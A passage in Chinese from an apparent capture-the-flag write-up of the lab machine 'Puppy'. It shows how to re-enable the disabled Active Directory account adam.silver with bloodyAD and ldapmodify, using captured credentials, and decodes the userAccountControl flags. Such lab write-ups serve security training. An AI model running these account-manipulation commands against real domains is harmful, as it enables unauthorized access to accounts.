 分解 `66048` 的标志位组合：
| **标志名称**          | **十进制值** | **二进制位** | **含义**                         |
|-----------------------|--------------|----------------|----------------------------------|
| `DONT_EXPIRE_PASSWD`  | 65536        | 2^16 (第17位)  | 用户密码永不过期。               |
| `NORMAL_ACCOUNT`      | 512          | 2^9 (第9位)    | 账户类型为普通用户（非系统账户）。 |

---

我们启用一下账户：
最简单的方法使用`bloodyAD`：

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# bloodyAD -d puppy.htb -u ant.edwards -p Antman2025! --host 10.10.11.70 remove uac -f LOCKOUT -f ACCOUNTDISABLE adam.silver
[-] ['LOCKOUT', 'ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

| 参数                  | 含义                                      |
| ------------------- | --------------------------------------- |
| `remove uac`        | 修改目标用户的 **UserAccountControl (UAC)** 属性 |
| `-f LOCKOUT`        | 移除 `LOCKOUT` 标志（解除账户锁定）                 |
| `-f ACCOUNTDISABLE` | 移除 `ACCOUNTDISABLE` 标志（启用被禁用的账户）        |

---

| 标志               | 值            | 含义           |
| ---------------- | ------------ | ------------ |
| `LOCKOUT`        | `0x00000010` | 账户因多次失败登录被锁定 |
| `ACCOUNTDISABLE` | `0x00000002` | 账户被手动禁用      |

通过 `remove uac -f` 移除这些标志，可以恢复账户的正常状态。

---

第二种方法也可使用`ldap`，创建一个 `ldif` 文件内容如下，dn 是上一步查询的结果：

```bash
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
```

`ldapmodify`执行文件，查看用户状态66048：

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# ldapmodify -x -H ldap://10.10.11.70 -D 'ant.edwards@puppy.htb' -w 'Antman2025!' -f enable.ldif
modifying entry "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB"


┌──(root㉿kali)-[/home/kali/Desktop]
└─# ldapsearch -x -H ldap://10.10.11.70 -D 'ant.edwards@puppy.htb' -w 'Antman2025!' -b "dc=puppy,dc=htb" "(&(objectClass=user)(sAMAccountName=adam.silver))" userAccountControl
# extended LDIF
#
# LDAPv3
# base <dc=puppy,dc=htb> with scope subtree
# filter: (&(objectClass=user)(sAMAccountName=adam.silver))
# requesting: userAccountControl 
#

# Adam D. Silver, Users, PUPPY.HTB
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
```